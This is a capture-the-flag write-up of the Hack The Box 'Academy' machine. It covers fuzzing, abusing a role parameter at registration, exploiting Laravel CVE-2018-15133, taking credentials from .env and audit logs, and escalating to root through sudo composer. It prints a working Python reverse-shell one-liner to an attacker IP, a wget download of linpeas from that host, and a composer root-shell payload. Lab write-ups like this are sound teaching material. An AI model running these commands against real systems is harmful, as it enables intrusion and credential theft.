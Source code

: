 Academy
==========================================
Enumeration
--------------
Let's start with scanning open ports using Nmap
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Nmap.PNG "Scan results")
We can see three open ports with SSH, HTTP and Mysqlx services  

We need to add academy.htb in /etc/host and then we can explore the web page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20web.PNG)

After register a new user we can see content of main page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20login.PNG)
There are nothing interesting on it

Using gobuster for directory bruteforce didn't give results but wfuzz with following command showed admin.php page
````
wfuzz -z file,/usr/share/wordlists/wfuzz/general/common.txt -u http://academy.htb/FUZZ.php --hc 404
````
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/wfuzz.PNG)

There is roleid parameter in registry form request. Some experiments with it let us register an administrator user.
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Burp%20register.PNG)
****
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Adm%20register%20new.png)

Foothold
----------------------
Now we can login as created user on admin.php
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20louch%20panel.PNG)

There is interesting web page dev-staging-01.academy.htb, we can add it to /etc/host and check its content
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Admin%20panel.PNG)

After some search on the page i noticed "laravel.log" on exception message and then found CVE-2018-15133 that allows to execute code on a vulnerable laravel application 

There are several exploits for this CVE, i'll use this [python sctipt](https://github.com/aljavier/exploit_laravel_cve-2018-15133)
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel.PNG)

We need API_KEY to exploit the application, luckily we can find it at the dev-staging page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/app_key.PNG)

Now we can execute some code in interractive mode using the exploit
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel_int.PNG)

There is python3 on the system and we can get revers-shell using following command:
``````
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
``````
Now we are in the system as www-data  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/whoami.PNG)

User1
------------
Using the recursive grep command in the web-app directory to find some passwords didn't give any results, but there are some hidden files in directory so we can check it and find some password in .env file  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/env%20pas.PNG)

There are several users on the system
```
www-data@academy$ ls /home/
ls /home/
21y4d  ch4p  cry0l1t3  egre55  g0blin  mrb3n
```
Login attempt with the cry0l1t3 user using found password was successed and we got the user.txt flag  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/user%20flag.PNG)

User2
---------
Cry0l1t3 is in the adm group in the system so he can read files in /var/log  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/adm%20group.PNG)

Let's use [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to find some privilege escalation vector
We need to start http-sever on Kali using following command
````
Python -m SimpleHTTPServer
````
And then we can download the script to the victim system using wget
````
wget http://10.10.14.8:8000/linpeas.sh
````

LinPEAS found mrb3n's password in /var/log/audit log file  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/mrb3n%20pass.jpg)

So now we can login as mrb3n  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/mrb3n.PNG)  

Geting root
--------
Using 'sudo -l' command showed us that mrb3n can run '/composer' as super user

![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/sudo%20l.PNG)  

After some googling i found [GTFOBins ./composer page](https://gtfobins.github.io/gtfobins/composer/) and found out that if we can run /composer as super user we can then using following commands will give us root privileges:

````
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
````
And now we are root  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/root.PNG)
